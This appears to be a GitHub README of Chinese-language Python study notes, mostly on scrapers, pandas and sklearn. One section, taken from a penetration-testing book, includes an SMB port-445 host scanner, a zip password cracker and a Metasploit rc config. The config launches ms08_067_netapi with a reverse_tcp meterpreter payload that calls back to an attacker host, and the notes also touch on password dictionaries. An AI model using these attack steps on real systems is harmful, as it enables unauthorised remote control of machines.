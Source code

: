# learn-python
###20160510 python 灰帽编程 3   
  ip、port扫描器；生成ip段。
###20160510 python 灰帽编程 4   
  解析域名，生成用户名-口令 字典，包括根据域名生成的用户名口令。
###20160705 python绝技 
####retBanner.py
  socket扫描ip，port，通过返回的banner查询vulnerable.txt
####zippass.py
  zFile = zipfile.ZipFile('evil.zip', 'r')
  zFile.extractall(pwd='password')
  使用多线程：
  t = Thread(target = functionname, args = (args))
  t.start
####4scanner.py
  argparse解析命令行参数
  # 参数用-h会与默认的帮助的-h冲突
    # 命令行下运行时需要使用python name.py
    # --portlist --后的是变量名
    # nargs = '*' 可是多个变量（端口）

```python
  def findTgts(subNet):
    nmScan = nmap.PortScanner()
    nmScan.scan(subNet, '445')
    tgtHosts = []
    for host in nmScan.all_hosts():
        if nmScan[host].has_tcp(445):
            state = nmScan[host]['tcp'][445]['state']
            if state == 'open':
                print '[+] Found Target Host: ' + host
                tgtHosts.append(host)
    return tgtHosts
```
####2-5-conficker.py
  使用python nmap发现主机（扫描）
```python
  def findTgts(subNet):
    nmScan = nmap.PortScanner()
    nmScan.scan(subNet, '445')
    tgtHosts = []
    for host in nmScan.all_hosts():
        if nmScan[host].has_tcp(445):
            state = nmScan[host]['tcp'][445]['state']
            if state == 'open':
                print '[+] Found Target Host: ' + host
                tgtHosts.append(host)
    return tgtHosts
```
  使用python为metasploit配置.rc文件，操作metasploit：
```python
configFile.write('use exploit/windows/smb/psexec\n')
  ...
  configFile = open('meta.rc', 'w')
```
####2-6-freeFloat.py
  写PoC
```shell
  use exploit/windows/smb/ms08_067_netapi
  set RHOST 192.168.1.37
  set PAYLOAD windows/meterpreter/reverse_tcp
  set LHOST 192.168.77.77
  set LPORT 7777
  exploit –j –z
```
  为了利用Metasploit的攻击，我们选择我们的Exploit(exploit/windows/smb/ms08_067_netapi)，然后设置目标为192.168.1.37。接下来我们指定攻击荷载为windows/meterpreter/reverse_tcp选择反向连接到我们的192.168.77.77的7777端口上，最后我们告诉Metasploit开始攻击系统。保存配置文件为conficker.rc，我们可以通过命令
  msfconsole -r conficker.rc
  来启动我们的攻击。这个命令会告诉Metasploit根据conficker.rc来启动攻击。如果成功，我们的攻击会返回一个命令行Shell来控制对方电脑。 

####32recycle.py 
  用Python 将用户的SID 关联起来:通过检查 Windows 注册表键值HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProfileList\<SID>\ProfileImagePath，我们可以看到它返回 一个是%SystemDrive%\Documents and Settings\<USERID>。在下图中，我 们看到这允许我们将SID 为S-1-5-21-1275210071-1715567821-725345543- 1005 转化为用户名“alex”。
  ```python
  key = _winreg.OpenKey(_winreg.HKEY_LOCAL_MACHINE, "SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProfileList\\" + sid)
              (value, type) = _winreg.QueryValueEx(key, "ProfileImagePath")
              user = value.split('\\')[-1]
  ```

###20161204 使用python抓取并分析数据—链家网(requests+BeautifulSoup)
	http://bluewhale.cc/2016-12-04/use-python-crawl-and-analysis-data-lianjia-requests-and-beautifulsoup.html
	scipy的安装问题【scipy-0.15.1-win32-superpack-python2.7.exe安装包】
	pandas入门 http://pda.readthedocs.io/en/latest/chp5.html
	sklearn 是一个 Python 的 科学计算库，提供了数种聚类算法可供选择；numpy、scipy 是 Python 的科学运算库，matplotlib 是图形库，用于绘图。http://www.jianshu.com/p/93c03a09d689
###20161220 renrendai爬虫与贷款数据分析
  画图，pandas中数据的分类统计；
  ```python
  #按贷款目的汇总贷款笔数
  title_count=rrd.groupby('title')['amount'].agg('count')
  ```
###20161227 python机器学习sklearn
  官方例子：\learn-python\sklearn\plot_digits_classification.py
  from sklearn import datasets 自带数据集
  digits = datasets.load_digits() 手写数字数据
  SVM分类，前一半训练，后一半预测（分类）
  ```python
  # Create a classifier: a support vector classifier
  classifier = svm.SVC(gamma=0.001)
  # We learn the digits on the first half of the digits
  classifier.fit(data[:n_samples / 2], digits.target[:n_samples / 2])
  # Now predict the value of the digit on the second half:
  expected = digits.target[n_samples / 2:]
  predicted = classifier.predict(data[n_samples / 2:])
  ```
  画图
  ```python
  #使用方法：subplot（m,n,p）subplot是将多个图画到一个平面上的工具。
  # 其中，m表示是图排成m行，n表示图排成n列，也就是整个figure中有n个图是排成一行的，
  # 一共m行，如果m=2就是表示2行图。p表示图所在的位置，p=1表示从左到右从上到下的第一个位置。
  plt.subplot(4, 7, index + 15)
  ```
###20170221 NYC_Taxi 使用Python分析纽约出租车搭乘数据
  Read more: http://bluewhale.cc/#ixzz4ZIpKZQqW
  pd操作
###20170222 lianjia_spider 网上的一个链家爬虫，还未测试
###20170223 pygame 未完成
###20170224 socket 用python实现的socket通信
    python socket编程详细介绍 http://blog.csdn.net/rebelqsp/article/details/22109925
    Python Socket 网络编程 http://www.cnblogs.com/hazir/p/python_socket_programming.html
    input()与raw_input()：最好用raw_input();
    用socket.sendall();

###20170404 花瓣网图片爬虫     好！！！
    learn-python\qiubai_crawler、4_grab_huaban_board.py 
    不错的代码，print color函数；多线程；
    ```python
    #get ajax pin data 异步（下拉加载更多）
    url = "http://huaban.com/boards/%s/?max=%s&limit=100&wfl=1" %(board, pins[-1])
    
    # 详细使用文档请参考: http://www.saintic.com/blog/204.html
    # user（用户） 下有 board（画板），再下有pin（图片）
    # http://huaban.com/boards/%s/?limit=100 在下拉加载更多的页面上直接请求100个
    # url = "http://huaban.com/boards/%s/?max=%s&limit=100&wfl=1" %(board, pins[-1]) 请求到max=pins[-1]个 即最后一个。最多100个
    ```